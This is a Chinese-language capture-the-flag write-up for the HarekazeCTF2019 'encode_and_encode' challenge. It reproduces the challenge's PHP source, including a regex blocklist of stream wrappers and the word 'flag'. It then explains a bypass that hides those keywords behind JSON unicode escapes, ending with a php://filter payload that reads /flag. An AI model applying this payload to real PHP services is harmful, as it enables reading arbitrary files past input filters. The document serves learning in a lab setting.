


# [HarekazeCTF2019]encode_and_encode

## 知识点

`json unicode解析绕过`

`php伪协议`

## 解题

在`query.php`中找到源码

```php
<?php
error_reporting(0);

if (isset($_GET['source'])) {
  show_source(__FILE__);
  exit();
}

function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

$body = file_get_contents('php://input');
$json = json_decode($body, true);

if (is_valid($body) && isset($json) && isset($json['page'])) {
  $page = $json['page'];
  $content = file_get_contents($page);
  if (!$content || !is_valid($content)) {
    $content = "<p>not found</p>\n";
  }
} else {
  $content = '<p>invalid request</p>';
}

// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]);
```

需要利用的就是`$content = file_get_contents($page);`

`$body = file_get_contents('php://input');`的意思是从`POST`传值，主要是要绕过

```php
function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}
```

根据`json`的特性，

> json解析时的关键字过滤可以采用unicode编码，json是支持用unicode编码直接表示对应字符的，如下两个写法是等价的。

```json
{"poc":"php"}
{"poc":"\u0070\u0068\u0070"}
```

[参考文章](https://www.cnblogs.com/Article-kelp/p/16096344.html)

那么我们直接使用伪协议读取即可

```json
{"page":"\u0070\u0068\u0070://filter/convert.base64-encode/resource=/\u0066\u006C\u0061\u0067"}
```



